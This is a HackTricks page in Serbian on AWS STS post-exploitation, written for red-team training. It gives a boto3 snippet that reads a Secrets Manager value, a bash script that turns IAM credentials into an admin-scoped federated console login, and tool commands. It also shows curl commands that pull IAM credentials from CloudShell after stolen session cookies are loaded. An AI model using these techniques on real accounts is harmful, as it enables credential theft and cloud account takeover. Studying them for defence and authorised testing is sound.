 # AWS - STS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

Za više informacija:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

#### Nova metoda decembar 2024: Zaobići zahtev za link ka web konzoli, putem HTTPS POST zahteva direktno dobiti tajne (bez linka za prijavu ili web konzole)

Poslato juče, kao PR za predstojeći ispit (ARTE: ex16x41) međutim vidim da PR ne prikazuje, možda je pogrešno poslato, hajde da probamo ponovo:
Koristeći ovu metodu potpuno zaobilazite zahtev za otvaranjem bilo kojih URL-ova, formatiranjem bilo kojih linkova za prijavu ili čak korišćenjem CLI / Web konzole.
Šta smo ovde uradili?
Napisao sam ovaj skript koji direktno komunicira sa AWS Secrets Manager API-jem, apsolutno je jednostavan i jasan.
Kada pokrenete skript, šalje HTTPS POST zahtev na AWS Secrets Manager endpoint
https://secretsmanager.<region>.amazonaws.com/
Zahtev GetSecretValue se šalje kao deo POST zahteva, autentifikovan sa SigV4 potpisom (koji upravlja boto3).
Secrets Manager obrađuje zahtev:
AWS validira zahtev prema IAM politikama priloženim vašem korisniku ili ulozi (kao što znamo, možemo videti vrednost tajne samo kao web konzolu)
Ako je dozvoljeno, usluga Secrets Manager vraća traženu vrednost tajne u odgovoru.
**POC Demo:**
CLI AWS komanda za dobijanje vrednosti tajne ne radi jer je pristup odbijen ->
Međutim, na slici možete videti jednostavnost metode da jednostavno izvučete zastavicu direktno znajući ID tajne (to smo enumerisali u ranijoj fazi kada smo se prijavili sa korisničkim profilom)
![image](https://github.com/user-attachments/assets/d05a1a96-04c0-4404-b4bd-dbfa93c6494b)
Napomena: Mislim da se ova metoda može koristiti univerzalno u zavisnosti od scenarija ako politika dozvoljava (ali zaobići ograničenja politike koja ne dozvoljava putem CLI)
Dakle, ovo se može koristiti kad god politika dozvoljava (kao alternativna opcija testiranja)
Pomoćna napomena: radoznao sam o drugim tehnikama koje možete primeniti koristeći istu metodu direktne interakcije sa API-jem usluge i sada AWS CLI, za bilo koji proces privilegovanog eskaliranja ili post eksploatacije kao ovde.
**Kod:**
'''
Python
import boto3

session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# Set a custom User-Agent
client.meta.events.register(
'before-call.secretsmanager.GetSecretValue',
lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'})
)

# Retrieve the secret value directly via secretsmanager API
response = client.get_secret_value(SecretId="flag_sts_lab_3")
print(response['SecretString'])
'''

### Od IAM kredencijala do konzole

Ako ste uspeli da dobijete neke IAM kredencijale, možda ćete biti zainteresovani za **pristup web konzoli** koristeći sledeće alate.\
Napomena da korisnik/uloga mora imati dozvolu **`sts:GetFederationToken`**.

#### Prilagođeni skript

Sledeći skript će koristiti podrazumevani profil i podrazumevanu AWS lokaciju (ne vladu i ne cn) da vam da potpisani URL koji možete koristiti za prijavu unutar web konzole:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Možete **generisati link za web konzolu** sa [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Osigurajte da IAM korisnik ima `sts:GetFederationToken` dozvolu, ili obezbedite ulogu za preuzimanje.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) je alat za sigurno čuvanje i pristup AWS akreditivima u razvojnog okruženju.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Možete takođe koristiti **aws-vault** da dobijete **sesiju konzole pretraživača**
{% endhint %}

#### Od konzole do IAM kredencijala

[**Prvobitno otkriveno u ovom postu**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), Ako uspete da kompromitujete neki pristup web konzoli (možda ste ukrali kolačiće i niste mogli da pristupite .aws folderu), možete dobiti neke IAM token kredencijale za tog korisnika putem **CloudShell**.

CloudShell izlaže IAM kredencijale putem **nedokumentovanog krajnjeg tačke na portu 1338**. Nakon učitavanja sesijskih kolačića žrtve u vaš pretraživač, možete se kretati do CloudShell-a i izdati sledeće komande da dobijete IAM kredencijale.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
